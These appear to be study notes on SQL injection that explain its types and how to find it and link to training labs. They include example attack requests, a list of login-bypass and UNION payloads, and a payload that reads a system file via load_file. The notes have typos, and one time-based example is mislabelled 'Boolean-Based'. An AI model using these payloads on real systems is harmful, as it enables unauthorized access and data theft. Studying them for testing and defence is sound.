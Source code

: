 #SQL Injection

* Vulnerability that consists of an attacker interfering with the SQL queries that an application makes to a database.

Impact of SQL Injection Attacks

* Unauthorized access to sensitive data
	
	* Confidentiality - SQLi can be used to viwe sensitive information, such as application username and passwords
	* Integirity - SQLi can be used to alter data in the database
	* Availability - SQLi can be used to delete data in the database

Types of SQL Injection
	
	* In-Band(classic)
		* Error
		* Union
	* Inferential(Blind)
		* Boolean
		* Time
	* Out-of-Bnad

Error-Based SQLi 

	Example:
			Request:
			www.target.com/app.php?id='

			Response:	
			You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version ...

Union-Based SQLi 

	Example:
			Request:
			www.target.com/app.php?id=' UNION SELECT username, password FROM users--

			Response:	
			administrator
			carlos

Boolean-Based SQLi 

	Example:
			Request:
			www.target.com/app.php?id=1 and 1=2

			Response:	
			False

			Request:
			www.target.com/app.php?id=1 and 1=1

			Response:	
			True

Boolean-Based SQLi 

	Example:
			If the first character of the admin's hashed passwd is an 'a', wait for 10 seconds.
				-> response takes 10 second -> first letter is 'a'
				-> response doesn't takes 10 second -> first letter is not 'a'

Out-of-band-Based SQLi 

	Example 

		will discuss...

Finding  SQLi Vulnerabilities

	* Submit SQL-specific characters such as ' or ", and look errors or other anomalies
	* Submit Boolean conditons such as OR 1=1 and OR 1=2, and look for differences in the applications responcses
	* Submit Payloads designed to trigger time delays when executed within a SQL query, and look for diffrences in the time taken to respond
	* Submit OAST Payloads designed to trigger out-of-band network interaction when executed within a SQL query, and monitor for any resulting interactions

Automated Exploitation Tool

	sqlmap (https://github.com/sqlmapproject/sqlmap)

Special Thanks : ???

Payloads

	'
	"
	)'
	)"
	')
	")
	'))
	"))

Login Bypass

	' or 1=1 --
	' or '1'='1
	' or 1=1 --+
	admin' or 1=1;#
	admin' or 1=1 LIMIT 1;#
	admin' or 1=1 LIMIT 0,1;#

Union Based SQL

	order by 1
	order by 2
	order by 3
	' UNION SELECT NULL --
	' UNION SELECT NULL,NULL --
	' UNION SELECT 1,2,3 -- -
	' UNION SELECT 1,load_file('/etc/password'),3 --

Resources and Labs:

	https://smoggy-mozzarella-076.notion.site/SQL-d655b37898be4bf8a5c816e6a79f4e96
	https://portswigger.net/web-security/sql-injection
	https://tryhackme.com/room/sqlilab
	https://medium.com/nerd-for-tech/some-tips-for-sql-injections-764e1a254a29




